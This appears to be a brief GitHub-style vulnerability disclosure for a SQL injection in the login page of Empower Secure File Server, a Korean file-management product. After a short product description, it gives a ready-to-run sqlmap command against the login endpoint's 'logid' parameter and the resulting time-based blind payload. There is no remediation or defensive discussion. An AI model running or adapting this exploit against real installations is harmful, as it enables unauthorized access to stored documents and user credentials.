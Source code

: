 Empower SFS Sql Injection
https://www.mocomsys.com/mpower-sfs
Empower Secure File Server is a network-based secure file management solution that can use central storage to store/view/edit documents or files, and share or collaborate with multiple users. You can easily connect in various network environments through the web version and dedicated connectors.
## sqlmap:
```
sqlmap -u "url/mpowerweb_eng/login/log_check.php?mode=login" --data="logid=admin&pwd=jgCeiwZXnWM7LBm3jZU%3D" -p "logid"
```
```
Parameter: logid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (query SLEEP)
    Payload: logid=admin' OR (SELECT 9604 FROM (SELECT(SLEEP(5)))EDTP) AND 'nibW'='nibW&pwd=jgCeiwZXnWM7LBm3jZU=
```

